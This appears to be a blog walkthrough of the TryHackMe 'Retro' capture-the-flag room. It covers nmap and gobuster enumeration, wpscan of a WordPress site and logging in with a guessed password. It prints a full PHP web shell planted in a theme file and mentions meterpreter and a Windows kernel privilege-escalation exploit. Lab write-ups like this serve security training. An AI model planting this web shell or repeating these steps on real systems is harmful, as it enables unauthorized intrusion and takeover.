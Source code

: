 ```yaml
---
title: Retro
author: 0xskar
date: 2022-07-05 18:32:00 -0500
categories: [Walkthrough, Tryhackme]
tags: [nmap, gobuster, wordpress]
---
```


TryHackMe CTF Box - New High Score!

[https://tryhackme.com/room/retro](https://tryhackme.com/room/retro)

![](/assets/retro.jpg)

* * *

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

* * * 

##  Nmap Scans

- initial ``nmap -Pn -sS -p- 10.10.85.75 -vvv``
- secondary ``nmap -sC -sV -p80,3389 10.10.85.75``

##   Port 80

```shell
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
```

##   Port 3389

```shell
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-04T16:21:57
| Not valid after:  2023-01-03T16:21:57
| MD5:   8d0b 3ecc 83b6 d988 6316 15b1 7479 0dc7
| SHA-1: b904 cda6 d6c1 1824 98f2 1bda ff45 966f ff10 2f9b
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQSXN76AiHMrBMfQDmsVszbDANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMjA3MDQxNjIxNTdaFw0yMzAxMDMxNjIx
| NTdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAnTUxUR3NlTd/EfOaRjv2aZU4K9uAMlOKeUxcWnakWVSxUAoDW2el
| KKFbmCJG36CSSun6/ixtiPgYNUJOMIusbyOz2K2d0joQPiyCqO8sfqFEeAKeak5I
| rGS/bjhvqXNpghCNO4+SHoS64jTyqYpgWhHFWSKjyO4Ja0qLxltuqX1jt2KxNsWy
| VynJUXBPi3wd0cqqFoktixdyFVc+aFck32x5kdREcT/lg6Op2hpyvs9EytS5ZqNv
| iVc7pxJexPvfhORqR1NXaSCzJhsljL0UaqFr1H8lVOwosAfU3HQoPnmD8kgpiaOx
| 4tyDZDWj4755d2+dUL3bF3eJ0VaraAdzlwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACtAy3coYy5G
| 2uoxwW46+u8O72GJs9+Qfiiht2dUXdbuWSx5xLD7/tsDGW8TEgm/rZj1NXUWUe0o
| 8DzbpjaotEesF+gkJFkQmik7yEKE0mKVkrcNjVi3XzXhzFJSy2Hg3x8TODCehEIa
| TDZOjg51f3airpKrGigNYGfvUmrCFC4Gkw3qFZ6DArUA2k36zusZfvTphzvuam05
| RSF5kL99vnBr//8DO+7BmPPOOCIA4UwTp4tWilox5/9CXbogdyxOyst+Ouofu/0n
| 9ktJO4PYBnoBjKiEK0QcAeIleZ3SYAGNfsDPc/vJHM9uUarlQX89Xos4bvFuJ4wU
| XtdQmKlzGCw=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-07-05T16:28:10+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-07-05T16:28:07+00:00
```

* * * 

##  Web Server Enumeration

- ``gobuster dir -u http://10.10.85.75/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- we find a webpage we can visit http://10.10.85.75/retro/ lets enumerate further
- ``gobuster dir -u http://10.10.85.75/retro/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- its a wordpress site. lets run ``wpscan``
- ``wpscan --url http://10.10.85.75/retro/ -v --api-token my api token -e vp``
- XML-RPC is enabled we can use [WPxploit](https://github.com/relarizky/wpxploit/blob/master/README.md)
- http://10.10.85.75/retro/wp-login.php Need to find a username
- checking out the main page we can see Wade is an author.
- One of his first posts is a hint? ~~"I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down."~~ parzival? Lol we're in...

* * * 

##  Wordpress

Edit the theme and lets inset this code to get some system information

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

* * * 

##  Windows

We can login on RDP Client with credentials Wade/parcival and get the first flag

- The machine is a Windows 2016 server.
- upload meterpreter shell and try to get root
- upload winpeasx64 and scan
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- exploit!
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213

* * * 


##   Answer the questions below

**A web server is running on the target. What is the hidden directory which the website lives on?**

- /retro/

**user.txt**

![](/assets/retro03.png)

**root.txt**

![](/assets/retro04.png)

* * * 


